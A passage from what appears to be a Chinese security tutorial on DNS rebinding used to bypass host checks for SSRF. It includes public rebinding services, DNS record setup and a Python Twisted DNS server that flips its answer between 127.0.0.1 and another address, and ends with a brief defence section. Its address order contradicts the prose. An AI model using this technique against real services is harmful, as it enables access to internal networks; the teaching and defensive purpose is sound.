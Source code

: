在上面的流程中，如果在 DNS 第二次解析的时候，我们能够更换 URL 对应的 IP，那么在 TTL 之后、缓存失效之后，重新访问此 URL 的话，就能获取被更换后的 IP。如果我们把第一次解析的 IP 设为合法 IP，就能绕过 host 合法性检查；把第二次解析的 IP 设为内网 IP，就达到了 SSRF 访问内网的目的。

总结

DNS 重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的 ip 达到突破同源策略或过 waf 进行 ssrf 的目的。

#### [](#242-%E5%AE%9E%E7%8E%B0)2.4.2 实现

**一些 DNS Rebinding 平台**

-   [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
-   [https://requestrepo.com/](https://requestrepo.com/)

**手动实现**

需要先添加一条 NS 记录和一条 A 记录：

| 记录类型 | 主机记录 | 记录值 |
| --- | --- | --- |
| NS  | test | ns.geekby.xyz |
| A   | ns  | 39.96.14.41 |

NS 记录表示域名 `test.geekby.xyz` 这个子域名指定由 `ns.geekby.xyz` 这个域名服务器来解析，然后 A 记录表示这个 `ns.geekby.xyz` 的位置在 IP 地址 `39.96.14.41` 上。

这里搭建 DNS 服务器采用 python 的 twisted 库中的 name 模块，代码如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>``` | ```python<br>from twisted.internet import reactor, defer<br>from twisted.names import client, dns, error, server<br><br>record={}<br><br>class DynamicResolver(object):<br><br>    def _doDynamicResponse(self, query):<br>        name = query.name.name<br><br>        if name not in record or record[name] < 1:<br>            ip = "127.0.0.1"<br>        else:<br>            ip = "1.2.3.4"<br><br>        if name not in record:<br>            record[name]=0<br>        record[name]+=1<br><br>        print name+" ===> "+ip<br><br>        answer = dns.RRHeader(<br>            name=name,<br>            type=dns.A,<br>            cls=dns.IN,<br>            ttl=0,<br>            payload=dns.Record_A(address=b'%s'%ip,ttl=0)<br>        )<br>        answers = [answer]<br>        authority = []<br>        additional = []<br>        return answers, authority, additional<br><br>    def query(self, query, timeout=None):<br>        return defer.succeed(self._doDynamicResponse(query))<br><br>def main():<br>    factory = server.DNSServerFactory(<br>        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]<br>    )<br><br>    protocol = dns.DNSDatagramProtocol(controller=factory)<br>    reactor.listenUDP(53, protocol)<br>    reactor.run()<br><br><br><br>if __name__ == '__main__':<br>    raise SystemExit(main())<br>``` |

#### [](#243-%E9%98%B2%E5%BE%A1%E6%96%B9%E6%B3%95)2.4.3 防御方法

通过控制两次的 DNS 查询请求的间隔低于 TTL 值，确保两次查询的结果一致。

Java 应用的默认 TTL 为 10s，这个默认配置会导致 DNS Rebinding 绕过失败。
